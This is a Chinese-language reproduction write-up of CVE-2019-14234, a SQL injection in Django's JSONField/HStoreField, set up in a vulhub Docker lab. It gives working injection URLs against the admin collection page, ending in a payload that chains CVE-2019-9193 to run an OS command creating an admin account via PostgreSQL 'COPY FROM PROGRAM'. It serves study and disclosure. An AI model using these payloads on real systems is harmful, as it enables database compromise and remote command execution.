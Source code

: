 # CVE-2019-14234 Django JSONField sql注入漏洞

### 一、漏洞简介

该漏洞需要开发者使用了JSONField/HStoreField，且用户可控queryset查询时的键名，在键名的位置注入SQL语句。

Django通常搭配postgresql数据库，而JSONField是该数据库的一种数据类型。该漏洞的出现的原因在于Django中JSONField类的实现，Django的model最本质的作用是生成SQL语句，而在Django通过JSONField生成sql语句时，是通过简单的字符串拼接。

通过JSONField类获得KeyTransform类并生成sql语句的位置。

其中key_name是可控的字符串，最终生成的语句是WHERE `(field->'[key_name]') = 'value'`，因此可以进行SQL注入。

### 二、漏洞影响

1.11.x before 1.11.23

2.1.x before 2.1.11

2.2.x before 2.2.4

### 三、复现过程

环境搭建


```
git clone https://github.com/vulhub/vulhub.git
cd vulhub/django/CVE-2019-14234/
docker-compose up -d
```

**漏洞利用**

1、登录后台

`http://ip:8000/admin/vuln/collection/`

2、构造URL进行查询

`http://ip:8000/admin/vuln/collection/?detail__a%27b=123`

![](images/15889947387610.png)


可以看到已经注入成功，并且可以看到构造的SQL语句

为进一步验证注入语句，我们继续构造


```
http://ip:8000/admin/vuln/collection/?detail__title')='1' or 1=1--
```

后台生成的sql语句的关键部分是


```
WHERE ("vuln_collection"."detail" -> 'title')='1' or 1=1-- ') = %s
```

由于or 1=1永为真，因此应该返回所有结果，页面返回结果符合预期，如下图

![](images/15889947686703.png)


下一步结合CVE-2019-9193我们尝试进行命令注入，构造url如下


```
http://ip:8000/admin/vuln/collection/?detail__title')%3d'1' or 1%3d1 %3bcreate table cmd_exec(cmd_output text)--%20
```

页面结果虽然报错，但是报错原因是no results to fetch，说明我们的语句已经执行

![](images/15889947882955.png)


最终payload


```
http://ip:8000/admin/vuln/collection/?detail__title')%3d'1' or 1%3d1 %3bcopy cmd_exec FROM PROGRAM 'net user admin admin /add'--%20
```